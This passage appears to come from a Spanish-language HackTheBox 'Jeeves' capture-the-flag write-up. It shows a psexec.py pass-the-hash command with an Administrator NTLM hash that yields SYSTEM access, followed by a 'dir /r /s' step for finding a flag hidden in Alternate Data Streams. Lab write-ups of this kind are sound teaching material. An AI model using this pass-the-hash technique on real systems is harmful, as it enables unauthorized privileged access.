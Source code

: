 ```
psexec.py WORKGROUP/Administrator@10.10.10.63 -H e0fb1fb85756c24235ff238cbe81fe00
```

Ahora tenemos acceso full al sistema como usuario nt authority\\system.

![](/assets/img/HackTheBox/Jeeves/priv2.png)

## 2da Flag

"La flag esta en otro lugar, mira profundo".

![](/assets/img/HackTheBox/Jeeves/ds1.png)

Con el siguiente comando podemos ver los ADS ( Alternate Data Streams )

```
dir /r /s
```

